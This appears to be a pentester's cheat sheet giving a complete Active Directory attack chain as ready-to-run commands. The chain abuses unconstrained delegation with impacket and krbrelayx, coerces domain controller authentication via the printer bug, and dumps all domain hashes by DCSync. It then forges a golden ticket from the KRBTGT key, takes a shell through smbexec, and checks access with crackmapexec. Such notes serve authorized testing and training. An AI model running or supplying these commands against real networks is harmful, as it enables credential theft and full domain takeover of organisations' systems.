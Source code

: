 ## Unconstrained Delegation
#### Find delegation with impacket
```
Python findDelegation.py <domain>/<user>:<password> -dc-ip xx.xx.xx.xx
```

#### Add SPN to a machine
```
python3 addspn.py -u <domain>\\<machine name>\$ -p aad3b435b51404eeaad3b435b51404ee:<rc4 computer hash> -s HOST/<spn> <dc ip> --additional
```

#### Modify dns records in the domain so that the DC knows the IP for the alternate DNS name we added (any authenticated user can do this)
```
python3 dnstool.py -u <domain>\\<machine name>\$ -p aad3b435b51404eeaad3b435b51404ee:<rc4 computer hash> -r <spn> -d <our ip> --action add <dc ip>
```

#### Start krbrelayx with aes256 key of computer
```
python3 krbrelayx.py -aesKey <aeskey>
```

#### Trigger printer bug that forces DC to authenticate to machine.
```
python3 printerbug.py -hashes aad3b435b51404eeaad3b435b51404ee:<rc4 computer hash> <domain>/<computername>\$@<computername dc> <spn>
```

#### Use ticket with secretsdump.py
```
export KRB5CCNAME=<ticket>
```

#### Use DCSync attack
```
python secretsdump.py -k <computername dc> -just-dc
```

#### Create golden ticket with KRBTGT hash
```
python ticketer.py -aesKey <krbtgt aes256 hash> -domain-sid <domain sid> -domain <domain> Administrator
```

#### Connect with golden ticket
```
python smbexec.py <domain>/Administrator@<computername dc> -k -no-pass
```

## Crackmapexec
#### Use crackmapexec / Check local admin access
```
cme smb -d <domain> <ip> -u <username> -p <password> 
```
